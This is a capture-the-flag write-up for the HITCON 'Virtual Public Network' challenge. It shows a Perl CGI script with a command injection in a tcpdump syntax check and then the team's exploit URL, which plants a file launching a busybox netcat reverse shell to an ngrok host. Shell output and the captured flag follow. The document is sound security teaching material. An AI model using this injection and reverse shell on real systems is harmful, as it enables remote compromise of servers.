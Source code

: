 # pwnphofun team
# Description
Author of challenge: [@orange_8361](https://twitter.com/orange_8361)
```
Virtual Public Network [500pts]
Vulnerable Point of Your Network :)
http://13.231.137.9
```

# Hint
```html
<!-- Hint for you :)
<a href='diag.cgi'>diag.cgi</a>
<a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

# diag.cgi
```perl
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
# Command Injection
```perl
return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
```
# Post on Author's blog
[http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html](http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)

# Timeline
- Setup Docker container (apache)
- Read author's blog :p
- Discover absolute path of `./tmp/` template dir: `/usr/lib/cgi-bin/tmp/` (thanks to Docker)
- Execute `ls /`, reverse tcp using busybox: `/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh`
- Read flag: `cd / && ./\$READ_FLAG\$`

# Final works
`http://13.231.137.9/cgi-bin/diag.cgi?options=-r$x="/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh",system$x%23 2>/usr/lib/cgi-bin/tmp/vinhjaxt.thtml <&tpl=vinhjaxt`
```bash
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34036
whoami
www-data
cd /
ls
$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
...

./\$READ_FLAG\$
hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}

```
Please follow for more informations:
- https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf
- https://github.com/orangetw/My-CTF-Web-Challenges#virtual-public-network
- http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html
